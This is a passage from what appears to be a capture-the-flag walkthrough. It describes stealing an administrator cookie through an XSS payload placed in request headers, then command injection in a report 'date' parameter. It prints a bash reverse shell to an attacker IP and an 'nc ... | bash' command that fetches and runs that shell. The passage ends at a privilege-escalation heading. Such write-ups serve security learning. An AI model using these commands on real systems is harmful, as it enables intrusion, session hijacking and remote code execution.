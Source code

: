 This payload if opened by the administrator's browser, it sends a HTTP request to us with the administrator's cookie.

We need to setup a listener with `nc -lvnp 80`.

Now we put the payload in one of the headers.

![failedxss](7.png)

I waited for some time but didn't get the cookie, so I pasted the payload in multiple header:

![xssattack](8.png)

I went back to the listener and got the cookie.

![cookie](9.png)

Now we change the cookie and go the `dashboard`.

![dashboard](10.png)

It worked!

## **Foothold**

On the dashboard we see generate report button, when clicked it sends the following request.

![report](11.png)

I tried for command injection in the `date` parameter and got a hit with `;id`.

![command injection](12.png)

Now time for a reverse shell. I put the following bash rev shell in a file:

```bash
bash -i >& /dev/tcp/10.10.16.26/9001 0>&1
```

I served the file with `nc -lvnp 1234 < shell.sh`, this sends the content of the file when it get's a connection.

Now I setup the revshell listener `nc -lvnp 9001`.

On burp suite I put the command `nc 10.10.16.26 1234|bash` which is going to connect to my first listener, get the bash rev shell command from it and pip it to bash in order to get executed.

![burpshell](13.png)

We send the request with burp suite repeater and check the second listener.

![rev shell](14.png)

We got a shell!

## **Privilege Escalation**
